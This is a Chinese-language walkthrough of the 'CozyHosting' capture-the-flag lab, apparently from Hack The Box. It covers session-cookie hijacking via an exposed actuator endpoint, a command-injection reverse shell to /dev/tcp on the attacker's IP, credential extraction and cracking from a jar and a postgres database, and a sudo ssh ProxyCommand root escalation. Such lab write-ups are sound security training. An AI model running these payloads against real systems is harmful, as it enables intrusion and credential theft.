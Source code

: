 CozyHosting Level:Easy
===
尋找user.txt
---
1.Nmap掃描IP，發現有開22、80

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/be94bec4-7737-4fb2-8017-4f20fccf7517)

2.使用dirsearch搜尋目錄，找到/actuator/sessions，內容跟session有關

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/969ec080-c913-4f63-b819-1aa035fd5303)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/a068678f-5ba5-48ce-8923-3fc98f91c180)

3.透過session cookie登入Web

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/df05fe7b-4e80-4c59-b946-eb1746901947)

4.找到疑似可執行ssh，透過burpsuite抓包測試確認可以執行指令

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f05c4cc3-a6d0-4d1f-bfd4-33d3ab5bcc4e)

5.插入reverse shell取得shell

     ;`(sh)0>/dev/tcp/10.10.14.62/1234`   ;表示指令分隔符，它可以讓你在一行中連續執行多個指令。 ``反引號（backticks），表示執行包裹在其內部的命令，並將其輸出插入到命令列中。
 
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/eb0de815-97af-4104-bfd9-5ccb5aea6225)

6.輸入exec >&0，它會將腳本或程式的輸出重新定向到標準輸入，這通常被用於隱藏輸出或將輸出發送到相同的地方作為輸入，以便與輸入進行互動。

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/9048a526-b34b-46a3-834b-158df8333b02)

7.最後輸入script /dev/null -c bash，將輸出記錄到/dev/null就會被拋棄。這樣執行的命令不會在目標上留下任何痕跡

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/1d0621b2-8094-4c44-b98c-00f323093450)

8.在當前目錄下沒有user.txt但發現有一個jar包，將jar包載下來

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/bb41f8bb-e22f-433a-b1ce-b32306443242)

9.解開jar包，使用grep 找出postgres的密碼

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/70c02312-0773-4199-9b55-d07483c3b52e)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/ceb7f02e-d4a9-4d8a-b0b4-df1927125c9e)

10.看到postgres服務是開啟的

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f184b159-513c-465a-99e8-3d963383a0e3)

11.連入postgres

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/8e466690-9663-4a26-9d5b-65bdaf120231)

12.可以看到兩個表hosts、users，關注users這張表

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/d3ecc83f-5181-42a6-8051-8cd4b655f1a2)

13.找到了兩個帳號

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f063f5cf-559a-4c8a-a5a0-25b65bc1fd74)

14.破解admin密碼

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/e7ef2237-92cb-450e-a256-d4c2d7967ae0)

15.試了三次都失敗，可能不是admin的密碼

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/0495abd2-5ef2-48f8-b12c-1bfeec816f38)

16.檢查/etc/passwd，發現還有josh帳號，使用josh登入成功

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/1737df42-4cfd-4387-b9bc-1400f818da4e)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/3363ba3a-7f98-44ca-86e0-8790d239b30f)

17.找到user.txt

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/7d3bcc1e-2246-4153-b22f-f8770b666be5)

18.執行sudo -l發現SSH 可以使用 root 權限執行。

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/1aa189e9-4cf6-4c3a-a9e2-62c70a61938e)

19.到[gtfobins](https://gtfobins.github.io/gtfobins/ssh/#sudo)找到指令提權

     sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/c1fd6925-0dcd-453f-a184-fb372a7d1e1a)

20.找到root.txt

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/1db3328f-75e6-4f8e-92ef-f9a0b83b34ef)
